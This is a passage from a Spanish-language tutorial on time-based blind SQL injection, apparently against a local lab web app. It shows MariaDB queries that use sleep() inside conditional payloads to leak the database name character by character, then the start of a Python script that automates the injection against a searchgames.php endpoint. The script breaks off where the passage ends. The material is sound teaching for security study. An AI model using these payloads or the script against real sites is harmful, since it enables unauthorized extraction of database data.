 ```sql
MariaDB [gamesdb]> select games,release_date from games where id='1'and IF('a'='a',sleep(5),1);-- -';
Empty set (5,010 sec)

MariaDB [gamesdb]> select games,release_date from games where id='1'and IF('b'='a',sleep(5),1);-- -';
+----------+--------------+
| games    | release_date |
+----------+--------------+
| Warframe | 2013-03-25   |
+----------+--------------+
1 row in set (0,000 sec)
```

En este caso, le estamos indicando que el primer carácter de la base de datos es igual a la letra '**g**', y al ser la condición cierta realiza la espera de 5 segundos.

```sql
MariaDB [gamesdb]> select games,release_date from games where id='1'and IF(SUBSTR(database(),1,1)='g',sleep(5),1);-- -';
Empty set (5,001 sec)
```


Pero en este caso, al no cumplirse esta condición, no realiza esa espera de 5 segundos, dado que el segundo carácter de la base de datos no es la letra '**g**'.


```sql
MariaDB [gamesdb]> select games,release_date from games where id='1'and IF(SUBSTR(database(),2,1)='g',sleep(5),1);-- -';
+----------+--------------+
| games    | release_date |
+----------+--------------+
| Warframe | 2013-03-25   |
+----------+--------------+
1 row in set (0,000 sec)
```

Con esto en mente, podemos aplicarlo al script que hemos creado para el boolean-based.

```python
#!/usr/bin/python3
import requests
from pwn import log
import time

# Global variables
main_url = "http://192.168.6.5/searchgames.php"

minus = "abcdefghijklmnopqrstuvwxyz"
mayus = "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
symbols = "!\"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~"
numbers = "0123456789"

characters = minus + mayus + symbols + numbers

def make_SQLi():
	string = ""

	length = 1

	# Adivinamos la longitud de los datos a recolectar

	while True:
		sqli = main_url + "?id=1'AND IF(length(database())='%d',sleep(5),1)-- -" % (length)

		time_start = time.time()
```